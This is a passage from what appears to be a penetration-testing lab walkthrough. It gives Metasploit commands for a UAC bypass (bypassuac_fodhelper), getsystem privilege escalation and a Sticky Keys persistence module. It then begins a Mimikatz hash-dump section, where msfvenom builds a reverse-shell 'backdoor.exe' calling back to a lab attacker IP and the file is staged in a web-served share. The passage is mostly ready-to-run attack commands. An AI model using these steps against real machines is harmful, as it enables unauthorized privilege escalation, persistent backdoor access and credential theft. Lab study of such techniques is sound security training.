 - Bypass UAC:
  ```bash
  background
  search bypassuac_fodhelper
  use exploit/windows/local/bypassuac_fodhelper
  set session 1
  show options
  set LHOST 10.10.1.13
  set TARGET 0
  exploit
  ```

- Elevate Privileges:
  ```bash
  getsystem -t 1
  getuid
  ```

- Exploit Sticky Keys:
  ```bash
  use post/windows/manage/sticky_keys
  sessions -i
  set session 2
  exploit
  ```

- Verify Access:
  - Switch to Victim machine and open a command prompt.
  - Type `whoami` to confirm system-level access.
  - Persistent system-level access achieved through Sticky Keys exploit.

---

#### Escalate Privileges to Gather Hashdump using Mimikatz

- Mimikatz is a powerful post-exploitation tool designed to extract and manipulate authentication credentials. We can use Metasploit's Mimikatz module to dump hashes from the target machine, ultimately leading to escalating privileges.

##### Steps

- Generate Malicious Payload:
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.13 LPORT=444 -f exe > backdoor.exe
  ```

- Prepare Shared Folder:
  - Use the existing shared folder (/var/www/html/share):
   ```bash
   mkdir /var/www/html/share
   chmod -R 755 /var/www/html/share
   chown -R www-data:www-data /var/www/html/share
   ```

- Copy Payload to Shared Folder:
   ```bash
   cp backdoor.exe /var/www/html/share/
   ```
